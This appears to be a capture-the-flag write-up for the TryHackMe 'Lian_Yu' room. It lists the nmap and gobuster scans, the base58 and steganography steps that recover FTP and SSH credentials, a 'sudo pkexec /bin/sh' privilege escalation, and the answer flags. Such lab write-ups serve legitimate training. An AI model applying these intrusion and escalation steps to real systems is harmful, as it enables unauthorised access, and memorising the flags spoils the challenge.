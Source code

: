 # Lian_Yu

## What is the Web Directory you found?

- Scan port
    
    ```bash
    sudo nmap -sV -A -n -O 10.10.9.36
    ```
    
    > ftp
    ssh
    http
    > 
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36 -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > island
    > 
    - <h2 style="color:white"> vigilante</h2>
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > 2100
    > -- you can avail your .ticket here but how? -- 

---

## What is the file name you found?

- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island/2100 -w wordlist/dirbuster/directory-2-medium.txt -x ticket
    ```
    
    > /green_arrow.ticket (Status: 200)
    > 
    - `RTy8yhBQdscX`

---

## What is the FTP Password?

- `RTy8yhBQdscX`

<aside>
💡 HIT
     Looks like base? [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

</aside>

- From base58
    - `!#th3h00d`

---

## What is the file name with SSH password?

- Login fpt
    
    ```bash
    fpt 10.10.9.36
    vigilante
    !#th3h00d
    ```
    
- Get files
    
    ```bash
    ls -la
    get .other_user
    get Leave_me_alone.png
    get Queen's_Gambit.png
    get aa.jpg
    exit
    ```
    
- Scan images
    - exiftool
        - See the properties
            
            ```bash
            sudo apt install exiftool
            ```
            
        - Sintaxe
            
            ```bash
            exiftool <file>
            ```
            
    
    ---
    
    - Scan
        
        ```bash
        exiftool aa.jpg
        exiftool Leave_me_alone.png
        ```
        
        > Error : File format error
        > 
    
    ---
    
    - Signature png
        - [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
        
        ```bash
        Ctrl + f + png
        ```
        
        - `89 50 4E 47 0D 0A 1A 0A‰PNG␍␊␚␊`0
        png
        Image encoded in the Portable Network Graphics format[21]
    
    ---
    
    - hexedit
        - See hex
            
            ```bash
            sudo apt install hexedit
            ```
            
        - Sintaxe
            
            ```bash
            hexedit <file>
            ```
            
        - hexedit Leave_me_alone.png
        - Paste signature png
            
            ![Untitled](Lian_Yu%2043e457942bfd4ed8a7d9a354cd8815f4/Untitled.png)
            
        - Save
    
    ---
    
    ![Leave_me_alone.png](Leave_me_alone.png)
    
    ---
    
    - Extract files
        - steghide
            - Extract files from inside another file
                
                ```bash
                sudo apt install steghide
                ```
                
            - Sintaxe
                
                ```bash
                To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
                To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
                ```
                
                ```bash
                steghide extract -sf file.jpg
                ```
                
        
        ---
        
        - Extract files
            
            ```bash
            steghide extract -sf aa.jpg
            password
            unzip ss.zip
            cat shado
            ```
            
        
- `shado`

---

## user.txt

- cat .other_user
    - Slade Wilson was 16 years old when he enlisted in the […]
- slade M3tahuman
    
    ```bash
    ssh slade@10.10.9.36
    M3tahuman
    cat user.txt
    ```
    
- `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

---

## root.txt

```bash
sudo -l -l
```

> /usr/bin/pkexec
> 
- [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)
    
    ```bash
    sudo pkexec /bin/sh
    sudo su
    cat root.txt
    ```
    
- `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`
